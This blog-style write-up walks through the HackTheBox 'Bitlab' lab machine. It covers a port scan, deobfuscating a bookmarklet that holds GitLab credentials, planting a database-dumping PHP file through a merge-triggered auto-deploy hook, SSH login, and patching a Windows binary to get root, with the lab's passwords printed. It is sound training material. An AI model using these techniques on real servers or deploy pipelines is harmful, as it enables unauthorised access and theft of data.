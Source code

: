 ```yaml
---
title: "Bitlab - HackTheBox"
date: 2019-10-26T15:23:03+02:00
tags: []
---
```


Let's start with a port scan:
```
$ nmap -A -T4 10.10.10.114
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-11 12:23 EST
Nmap scan report for 10.10.10.114
Host is up (0.058s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.114/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's visit the website on port 80:
![](/images/hackthebox/bitlab/bitlab.png)

This is a Gitlab server installation and trying common username and passwords
combinations or a bruteforce with Hydra does not gives us anything, but by
visiting the [Help](http://10.10.10.114/help/bookmarks.html) link in the bottom, we find an interesting page:

![](/images/hackthebox/bitlab/help.png)

The most interesting link is the last one, Gitlab login, which contains this
javascript function:
```js
javascript:(function(){ var _0x4b18=["\x76\x61\x6C\x75\x65","\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x63\x6C\x61\x76\x65","\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64","\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()
```

It is obfuscated, so let's use a tool like `https://beautifier.io/` to improve
the readability:
```
javascript: (function() {
    var _0x4b18 = ["value", "user_login", "getElementById", "clave", "user_password", "11des0081x"];
    document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]] = _0x4b18[3];
    document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]] = _0x4b18[5];
})()
```

And let's replace the variable with their values:

```
javascript: (function() {
    var _0x4b18 = ["value", "user_login", "getElementById", "clave", "user_password", "11des0081x"];
    document["getElementById"]("user_login")["value"] = "clave";
    document["getElementById"]("user_password")["value"] = "11des0081x";
})()
```

Basically what it does is it autocompletes the login form with `clave` as
username and `11des0081x` as password. After logging in we find two
repositories:
![](/images/hackthebox/bitlab/repositories.png)

This is the code of Deployer:
```php
<?php

$input = file_get_contents("php://input");
$payload  = json_decode($input);

$repo = $payload->project->name ?? '';
$event = $payload->event_type ?? '';
$state = $payload->object_attributes->state ?? '';
$branch = $payload->object_attributes->target_branch ?? '';

if ($repo=='Profile' && $branch=='master' && $event=='merge_request' && $state=='merged') {
    echo shell_exec('cd ../profile/; sudo git pull'),"\n";
}

echo "OK\n";
```
It does a Git pull automatically after a merge is done on the Profile
repository. Luckily for us, the Profile repository is cloned into the root of
the web server, and it's visitable by going on the user's settings (which is
strange, maybe it was an error).

Another interesting thing can be found in the user's snippets:
![](/images/hackthebox/bitlab/snippets.png)

The logical thing to do now is to try to use those credentials to dump the
table, so let's create a file called dump.php in the Profile repository and let's write the
following code:
```php
<?php
    $db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
    $result = pg_query($db_connection,"SELECT * FROM profiles;");
    var_dump(pg_fetch_all($result));
?>
```
After creating a merge request and accepting it, the Deployer project will
automatically pull the changes and the `dump.php` file will be visitable. Here
is it's output:
```json
array(1) {
  [0]=>
  array(3) {
    ["id"]=>
    string(1) "1"
    ["username"]=>
    string(5) "clave"
    ["password"]=>
    string(22) "c3NoLXN0cjBuZy1wQHNz=="
  }
}
```

The password looks like base64 and it gets decoded as `ssh-str0ng-p@ss`, but
there is an invalid padding, and the password is the actual base64 string. I
hate when in CTFs these things happen, it's just a loss of time.
So let's connect with SSH and let's get the user flag:
```
clave@bitlab:~$ wc -c user.txt
33 user.txt
```

# Privilege escalation
The first thing that jumped to my eyes is a file in user's home:
```
clave@bitlab:~$ ls
RemoteConnection.exe  user.txt
```

Let's copy it on our machine to analyze it:
`scp clave@10.10.10.114:/home/clave/RemoteConnection.exe .`

Using Ghidra to reverse engineer it we can find some interesting strings:
![](/images/hackthebox/bitlab/strings.png)

And those strings are user in this function:
{{< highlight C "linenos=table, hl_lines=71" >}}
/* WARNING: Could not reconcile some variable overlaps */

void FUN_00401520(void)

{
  LPCWSTR pWVar1;
  undefined4 ***pppuVar2;
  LPCWSTR lpParameters;
  undefined4 ***pppuVar3;
  int **in_FS_OFFSET;
  uint in_stack_ffffff44;
  undefined4 *puVar4;
  uint uStack132;
  undefined *local_74;
  undefined *local_70;
  DWORD local_6c;
  void *local_68 [4];
  undefined4 local_58;
  uint local_54;
  void *local_4c [4];
  undefined4 local_3c;
  uint local_38;
  undefined4 ***local_30 [4];
  int local_20;
  uint local_1c;
  uint local_14;
  int *local_10;
  undefined *puStack12;
  undefined4 local_8;
  
  local_8 = 0xffffffff;
  puStack12 = &LAB_004028e0;
  local_10 = *in_FS_OFFSET;
  uStack132 = DAT_00404018 ^ (uint)&stack0xfffffffc;
  *(int ***)in_FS_OFFSET = &local_10;
  local_6c = 4;
  local_14 = uStack132;
  GetUserNameW((LPWSTR)0x4,&local_6c);
  local_38 = 0xf;
  local_3c = 0;
  local_4c[0] = (void *)((uint)local_4c[0] & 0xffffff00);
  FUN_004018f0();
  local_8 = 0;
  FUN_00401260(local_68,local_4c);
  local_74 = &stack0xffffff60;
  local_8._0_1_ = 1;
  FUN_004018f0();
  local_70 = &stack0xffffff44;
  local_8._0_1_ = 2;
  puVar4 = (undefined4 *)(in_stack_ffffff44 & 0xffffff00);
  FUN_00401710(local_68);
  local_8._0_1_ = 1;
  FUN_00401040(puVar4);
  local_8 = CONCAT31(local_8._1_3_,3);
  lpParameters = (LPCWSTR)FUN_00401e6d();
  pppuVar3 = local_30[0];
  if (local_1c < 0x10) {
    pppuVar3 = local_30;
  }
  pWVar1 = lpParameters;
  pppuVar2 = local_30[0];
  if (local_1c < 0x10) {
    pppuVar2 = local_30;
  }
  while (pppuVar2 != (undefined4 ***)(local_20 + (int)pppuVar3)) {
    *pWVar1 = (short)*(char *)pppuVar2;
    pWVar1 = pWVar1 + 1;
    pppuVar2 = (undefined4 ***)((int)pppuVar2 + 1);
  }
  lpParameters[local_20] = L'\0';
  ShellExecuteW((HWND)0x0,L"open",L"C:\\Program Files\\PuTTY\\putty.exe",lpParameters,(LPCWSTR)0x0,
                10);
  if (0xf < local_1c) {
    operator_delete(local_30[0]);
  }
  local_1c = 0xf;
  local_20 = 0;
  local_30[0] = (undefined4 ***)((uint)local_30[0] & 0xffffff00);
  if (0xf < local_54) {
    operator_delete(local_68[0]);
  }
  local_54 = 0xf;
  local_58 = 0;
  local_68[0] = (void *)((uint)local_68[0] & 0xffffff00);
  if (0xf < local_38) {
    operator_delete(local_4c[0]);
  }
  *in_FS_OFFSET = local_10;
  FUN_00401e78();
  return;
}
{{< /highlight >}}

It looks like it uses some functions to decrypt a password and use it to login
with PuTTY to a machine on line 71. The only problem is that the user that runs
the program must be named `Clave`, and this check is at address `0x401640`:
![](/images/hackthebox/bitlab/graph.png)

We can patch the program by editing `JNZ LAB_00401662` to `JMP 0x00401649` to
unconditionally jump, and running the patched program gets us a root shell on
the machine:
![](/images/hackthebox/bitlab/putty.png)

Cool! This was my first machine that needed reverse engineering so it took me a
while, and the important thing that we can learn is to not be lazy and use
strange methods to save passwords and important stuff.

Another way that this step could have been done is to use a debugger and put a breakpoint after the password gets decoded and read the memory:
```
Qf7]8YSV.wDNF*[7d?j&eD4^
```

Thanks for reading!
